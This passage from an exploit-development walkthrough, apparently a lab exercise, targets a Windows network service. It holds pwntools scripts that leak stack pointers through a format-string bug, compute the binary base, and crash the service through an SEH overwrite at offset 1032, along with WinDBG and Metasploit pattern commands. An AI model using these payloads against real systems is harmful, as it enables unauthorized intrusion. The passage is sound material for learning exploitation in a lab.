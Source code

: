 ```python
#!/usr/bin/env python3
from pwn import *

p = remote('192.168.153.212',2121, typ='tcp', level='debug')
p.sendline(b"LST |%p|%p|%p|%p|")
leak = p.recvline(keepends=False).split(b"|")[1:]
binary_leak = int(leak[1].decode(),16)
binary_base = binary_leak - 0x14120;
log.info("Binary base: "+hex(binary_base))
```

We connect to the server and send `LST |%p|%p|%p|%p|`, which leaks 4 pointers from the stack:

```
[DEBUG] Sent 0x12 bytes:
    b'LST |%p|%p|%p|%p|\n'
[DEBUG] Received 0x41 bytes:
    b'ERROR: Can not open Path: |8ACA5DF4|3FAC4120|3FAC4120|0133E550|\n'
```

In WinDBG we can see that 0x3fac4120 is an address of the binary itself. We calculate the difference of this pointer to the load address of the binary:

```
0:001> ? 3fac4120-3fab0000 
Evaluate expression: 82208 = 00014120
```

Since this offset does not change between restarts and the leaked pointer is always the 2nd value on the stack, we can reliably subtract it to get the base address of the binary. If you are used to binary exploitation on linux you might wonder if we can use `%n` here to get a write primitive. This is not possible because Visual Studio prevents `%n` usage by default.

The next task is to find the offset at which we overwrite SEH. To do so we generate a pattern (`msf-pattern_create -l 4000`), send it and use it to get the offset (`msf-pattern_offset -q ... -l 4000`) at which we have to put the value that overwrites our SEH entry. We don’t know much about the required length yet but trying a few values and observing if any of them crashes the application and if a pattern value appears on `!exchain` is a viable approach. Eventually this will lead to the offset `1032`.

With these new insights we can update the poc to crash the target and place Bs inside SEH & Cs inside NSEH.

```python
#!/usr/bin/env python3
from pwn import *

offset = 1032
size = 4000

p = remote('192.168.153.212',2121, typ='tcp', level='debug')
p.sendline(b"LST |%p|%p|%p|%p|")
leak = p.recvline(keepends=False).split(b"|")[1:]
binary_leak = int(leak[1].decode(),16)
binary_base = binary_leak - 0x14120;
log.info("Binary base: "+hex(binary_base))

log.info("Sending payload..")
buf  = b""
buf += b"LST "
buf += b"A" * (offset)
buf += b"B" * 4 # nseh
buf += b"C" * 4 # seh
buf += b"D" * (size-len(buf))
p.sendline(buf)

input("Press enter to continue..")
p.close()  
```